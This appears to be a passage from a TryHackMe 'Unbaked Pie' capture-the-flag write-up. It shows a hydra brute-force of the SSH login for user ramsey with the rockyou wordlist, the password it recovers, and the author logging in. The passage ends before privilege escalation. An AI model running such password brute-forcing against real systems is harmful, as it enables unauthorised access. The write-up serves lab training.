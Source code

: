 Lets crack the password of ramsey from here →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Unbaked_Pie]
└─$ hydra -l ramsey -P /usr/share/wordlists/rockyou.txt -t 64 -s 1234 ssh://127.0.0.1

[DATA] attacking ssh://127.0.0.1:1234/
[1234][ssh] host: 127.0.0.1   login: ramsey   password: 12345678
1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-31 21:46:35
```
{: .nolineno}
{: .nolineno}

I get the credentails as →

```text
ramsey : 12345678
```
{: .nolineno}
{: .nolineno}

## SSH Service ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Unbaked_Pie]
└─$ ssh ramsey@127.0.0.1 -p 1234
The authenticity of host '[127.0.0.1]:1234 ([127.0.0.1]:1234)' can not be established.
ED25519 key fingerprint is SHA256:B6SoW4WBwsc2n9NynSce9+R0E44T4YkZVRxD5y5Muhc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:1234' (ED25519) to the list of known hosts.
ramsey@127.0.0.1 is password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

39 packages can be updated.
26 updates are security updates.

Last login: Tue Oct  6 22:39:31 2020 from 172.17.0.2
ramsey@unbaked:~$ whoami
ramsey
ramsey@unbaked:~$ id
uid=1001(ramsey) gid=1001(ramsey) groups=1001(ramsey)
ramsey@unbaked:~$
```
{: .nolineno}
{: .nolineno}

I have to see another privileges to root →
